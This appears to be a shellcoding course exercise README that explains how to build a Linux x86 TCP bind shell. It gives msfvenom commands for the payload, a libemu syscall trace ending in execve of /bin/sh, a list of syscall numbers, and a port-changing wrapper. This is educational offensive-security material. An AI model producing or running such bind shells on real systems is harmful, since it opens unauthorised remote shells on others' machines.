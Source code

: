 # Exercise 1


## Usage

```
python wrapper.py $PORT
```

Example with port 7777:

![Screenshot](images/wrapper/5.png)

Then it can be compiled and executed:

![Screenshot](images/wrapper/51.png)


Result:

![Screenshot](images/wrapper/52.png)


If the port causes problems, a warning message will appear:

![Screenshot](images/wrapper/6.png)



## First approach: Libemu

After installing Libemu, we will use the *sctest* binary. We can get the result using the binary directly or the *libemu.sh* script (in **scripts/** folder):

```
msfvenom -p linux/x86/shell_bind_tcp --platform=Linux -a x86 -f raw LPORT=8888 | ./sctest -vvv -Ss 10000 -G bindshell.dot

-------------------------------------

sh libemu.sh "msfvenom -p linux/x86/shell_bind_tcp --platform=Linux -a x86 -f raw LPORT=8888" bindshell | tee libemu_res/libemu_res.txt
```


The result:

```
int socket (
     int domain = 2;
     int type = 1;
     int protocol = 0;
) =  14;
int bind (
     int sockfd = 14;
     struct sockaddr_in * my_addr = 0x00416fc2 => 
         struct   = {
             short sin_family = 2;
             unsigned short sin_port = 47138 (port=8888);
             struct in_addr sin_addr = {
                 unsigned long s_addr = 0 (host=0.0.0.0);
             };
             char sin_zero = "       ";
         };
     int addrlen = 16;
) =  0;
int listen (
     int s = 14;
     int backlog = 0;
) =  0;
int accept (
     int sockfd = 14;
     sockaddr_in * addr = 0x00000000 => 
         none;
     int addrlen = 0x00000010 => 
         none;
) =  19;
int dup2 (
     int oldfd = 19;
     int newfd = 14;
) =  14;
int dup2 (
     int oldfd = 19;
     int newfd = 13;
) =  13;
int dup2 (
     int oldfd = 19;
     int newfd = 12;
) =  12;
int dup2 (
     int oldfd = 19;
     int newfd = 11;
) =  11;
int dup2 (
     int oldfd = 19;
     int newfd = 10;
) =  10;
int dup2 (
     int oldfd = 19;
     int newfd = 9;
) =  9;
int dup2 (
     int oldfd = 19;
     int newfd = 8;
) =  8;
int dup2 (
     int oldfd = 19;
     int newfd = 7;
) =  7;
int dup2 (
     int oldfd = 19;
     int newfd = 6;
) =  6;
int dup2 (
     int oldfd = 19;
     int newfd = 5;
) =  5;
int dup2 (
     int oldfd = 19;
     int newfd = 4;
) =  4;
int dup2 (
     int oldfd = 19;
     int newfd = 3;
) =  3;
int dup2 (
     int oldfd = 19;
     int newfd = 2;
) =  2;
int dup2 (
     int oldfd = 19;
     int newfd = 1;
) =  1;
int dup2 (
     int oldfd = 19;
     int newfd = 0;
) =  0;
int execve (
     const char * dateiname = 0x00416fb2 => 
           = "/bin//sh";
     const char * argv[] = [
           = 0x00416faa => 
               = 0x00416fb2 => 
                   = "/bin//sh";
           = 0x00000000 => 
             none;
     ];
     const char * envp[] = 0x00000000 => 
         none;
) =  0;
```


Once we know the system calls or syscalls, the values used in them and the order, it is necessary to get the hexadecimal values for every syscall, using cat and printf to print the hexadecimal value:

```
cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep listen

printf "%x\n" 363
```

Or the *syscallhex.sh* script (in **scripts/** folder)

```
sh syscallhex.sh listen
```



The system calls and their values are:

- Socket: 359 (0x167)

- Bind:     361 (0x169)

- Listen:   363 (0x16b

- Accept:   364 (0x16c)

- Dup2:     63 (0x3f)

- Execve:   11 (0xb)


Also it is important to know how the system calls work in Linux. As stated in the [Skape's paper about egghunters](http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf) "the system call interface that is exposed to user-mode applications in Linux (on IA32) is provided through soft-interrupt 0x80. The following table describes the register layout that is used across all system calls"

![Screenshot](images/7.png)

Knowing this and the values from the Libemu's output, it is possible to write the nasm code.



### Creating the Python wrapper 

Get the shellcode changing the "\\" to "\\\\":

![Screenshot](images/wrapper/2.png)

Detect where the port (8888 or 0x22b8 in hexadecimal) is being used:

![Screenshot](images/wrapper/3.png)

Now we know the value in the original shellcode which must be substituted:

![Screenshot](images/wrapper/4.png)

After this, we just must take the input to the wrapper script, translate the port number to hexadecimal (in big endian format) and print the new shellcode with the port updated.


------------------------------------------------------------------

## Second approach: Ndisasm

A second approach, which can be considered easier, is to get the nasm file from the raw output from msfvenom:
```
msfvenom -p linux/x86/shell_bind_tcp LPORT=8888 --platform=Linux -a x86 -f raw | ndisasm -u -
```

![Screenshot](images/wrapper/8.png)


It can be compiled:

![Screenshot](images/wrapper/9.png)


And it works correctly:

![Screenshot](images/wrapper/10.png)

This is included in the **ndisasm_approach** folder, but the wrapper has been developed and tested only for the first approach.


------------------------------------------------------------------

## Some useful links
- http://man7.org/linux/man-pages/man2/socket.2.html
- https://stackoverflow.com/questions/19850082/using-nasm-and-tcp-sockets
- http://man7.org/linux/man-pages/man2/socket.2.html
- https://rosettacode.org/wiki/Sockets
- http://www6.uniovi.es/cscene/CS5/CS5-05.html
- https://stackoverflow.com/questions/48773917/why-creating-a-remote-shell-using-execve-doesnt-overwrite-file-descriptors-and
- https://www.tutorialspoint.com/assembly_programming/assembly_system_calls.htm
